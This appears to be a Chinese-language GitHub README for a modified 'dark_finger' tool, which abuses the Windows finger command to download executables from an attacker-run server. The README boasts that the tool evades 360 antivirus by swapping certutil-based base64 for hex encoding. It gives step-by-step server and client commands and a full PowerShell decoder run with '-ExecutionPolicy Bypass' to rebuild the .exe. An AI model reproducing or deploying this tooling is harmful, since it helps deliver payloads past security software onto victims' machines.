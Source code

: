 本项目是基于`dark_finger`的二次开发 增加易用性 

移除了原有的base64编码 改用hex 因为360杀`certutil`很严

原脚本 https://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

![image-20241019150729661](https://img-host-arcueid.oss-cn-hangzhou.aliyuncs.com/img202410191507789.png)

`dark_finger`是基于`finger`实现的windows文件传输的服务端 截止2024年10月19日 免杀360
# 使用方法

1. 同目录下创建配置文件`finger.conf`
   
    内容为所需下载的文件名如 `calc.exe`

2. 同目录下放置该文件

    在同目录下放置`calc.exe`

3. 启动服务端监听

    `python dark_finder.py -c finger.conf`

4. 客户端交互

    `finger [filename]@[dark_finder] > dump.txt`

    写入文件的前两行是 空行和服务端信息 需要舍弃

5. 通过powershell解码 转 exe

    `powershell -ExecutionPolicy Bypass -File decode.ps1 calc.txt calc.exe`

    ```powershell
    param(
        [string]$sourceFile,
        [string]$destinationFile
    )

    $lines = Get-Content $sourceFile
    $hexString = ($lines[2..$lines.Length] -join '' -replace '\s+', '')
    $byteList = New-Object System.Collections.Generic.List[byte]

    for ($i = 0; $i -lt $hexString.Length; $i += 2) {
        if ($i + 1 -lt $hexString.Length) {
            $byte = [Convert]::ToByte($hexString.Substring($i, 2), 16)
            $byteList.Add($byte)
        } 
    }


    [System.IO.File]::WriteAllBytes($destinationFile, $byteList.ToArray())

    ```
# 具体细节可参考
